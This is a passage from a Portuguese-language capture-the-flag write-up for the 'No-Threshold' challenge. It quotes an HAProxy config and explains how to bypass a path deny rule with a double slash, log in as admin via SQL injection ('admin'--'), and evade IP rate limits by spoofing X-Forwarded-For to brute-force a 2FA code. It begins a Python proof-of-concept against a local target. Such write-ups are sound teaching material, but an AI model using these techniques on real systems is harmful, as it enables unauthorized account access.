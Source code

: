 ```
    # Deny users that make more than 20 requests in a small timeframe.
    http-request track-sc0 hdr(X-Forwarded-For) if is_auth_verify_2fa
    http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }

    # External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }

backend backend
    balance roundrobin
    server s1 0.0.0.0:8888 maxconn 32 check
```
{% endcode %}

Perceba que no arquivo de configuração são definidas regras de [limitação](https://www.cloudflare.com/pt-br/learning/bots/what-is-rate-limiting/) por IP através do cabeçalho `X-Forwarded-For`. Caso esse cabeçalho não seja informado na requisição, ele é incluído pela aplicação com base no IP que está fazendo a requisição. Além disso, é definida um regra que impede o acesso à URL que inicie com `/auth/login`. Para contornar essa última regra, podemos utilizar de um [path traversal](https://www.infosec.com.br/path-traversal/) ou simplesmente adicionar uma barra antes da URL, resultando em `//auth/login`, e a aplicação irá autorizar. Com isso, já podemos acessar a funcionalidade de login.

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengesnothresholdlogin.png" alt=""><figcaption><p>No-Threshold - Página de login</p></figcaption></figure>

Perceba que a aplicação autoriza a requisição ao inserir uma barra adicional no início da URL. Interceptando a requisição de login, inserindo o nome de usuário como `admin'--` e qualquer valor como senha, é possível enviar a requisição como o usuário administrador, gerando um código de autenticação válido por 5 minutos. A partir disso, basta apenas contornar a limitação por IP com um ataque de força bruta para validar o código de autenticação e obter a flag.

## Prova de Conceito

Agora que sabemos quais ações o _exploit_ deve realizar, podemos usar Python para desenvolver um script e automatizar o processo.

{% code title="poc.py" overflow="wrap" lineNumbers="true" %}
```python
from concurrent.futures import ThreadPoolExecutor
from random import randrange

from bs4 import BeautifulSoup
from requests import Response, Session, adapters

url = "http://127.0.0.1:1337"
hosts = []


def random_host() -> str:
    """
    Gera um endereço IP de host aleatório.

```